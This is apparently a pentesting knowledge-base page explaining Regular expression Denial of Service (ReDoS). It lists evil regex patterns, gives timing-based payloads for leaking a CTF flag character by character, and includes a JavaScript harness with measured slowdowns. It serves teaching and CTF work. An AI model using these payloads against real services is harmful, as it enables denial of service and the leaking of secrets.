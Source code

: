 ```yaml
---
layout: page
title: Regular expression Denial of Service - ReDoS
date: 2025-01-01 10:14:00-0400
description:
tags:
category: pentesting-web
discus_comments: true
related_posts: true
toc:
  sidebar: left
---
```


# Regular expression Denial of Service - ReDoS

# Regular Expression Denial of Service (ReDoS)

A **Regular Expression Denial of Service (ReDoS)** happens when someone takes advantage of weaknesses in how regular expressions (a way to search and match patterns in text) work. Sometimes, when regular expressions are used, they can become very slow, especially if the piece of text they're working with gets larger. This slowness can get so bad that it grows really fast with even small increases in the text size. Attackers can use this problem to make a program that uses regular expressions stop working properly for a long time.

## The Problematic Regex Naïve Algorithm

**Check the details in [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-\_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)**

## Evil Regexes <a href="#evil-regexes" id="evil-regexes"></a>

An evil regular expression pattern is that one that can **get stuck on crafted input causing a DoS**. Evil regex patterns typically contain grouping with repetition and repetition or alternation with overlapping inside the repeated group. Some examples of evil patterns include:

- (a+)+
- ([a-zA-Z]+)\*
- (a|aa)+
- (a|a?)+
- (.\*a){x} for x > 10

All those are vulnerable to the input `aaaaaaaaaaaaaaaaaaaaaaaa!`.

## ReDoS Payloads

### String Exfiltration via ReDoS

In a CTF (or bug bounty) maybe you **control the Regex a sensitive information (the flag) is matched with**. Then, if might be useful to make the **page freeze (timeout or longer processing time)** if the a **Regex matched** and **not if it didn't**. This way you will be able to **exfiltrate** the string **char by char**:

- In [**this post**](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) you can find this ReDoS rule: `^(?=<flag>)((.*)*)*salt$`
  - Example: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
- In [**this writeup**](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html) you can find this one:`<flag>(((((((.*)*)*)*)*)*)*)!`
- In [**this writeup**](https://ctftime.org/writeup/25869) he used: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

### ReDoS Controlling Input and Regex

The following are **ReDoS** examples where you **control** both the **input** and the **regex**:

```javascript
function check_time_regexp(regexp, text) {
  var t0 = new Date().getTime();
  new RegExp(regexp).test(text);
  var t1 = new Date().getTime();
  console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.");
}

// This payloads work because the input has several "a"s
[
  //  "((a+)+)+$",  //Eternal,
  //  "(a?){100}$", //Eternal
  "(a|a?)+$",
  "(\\w*)+$", //Generic
  "(a*)+$",
  "(.*a){100}$",
  "([a-zA-Z]+)*$", //Generic
  "(a+)*$",
].forEach((regexp) => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"));

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```

## Tools

- [https://github.com/doyensec/regexploit](https://github.com/doyensec/regexploit)
- [https://devina.io/redos-checker](https://devina.io/redos-checker)

## References

- [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-\_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20%40%20DEKRA%20CTF%202022/solver/solver.html)
- [https://ctftime.org/writeup/25869](https://ctftime.org/writeup/25869)
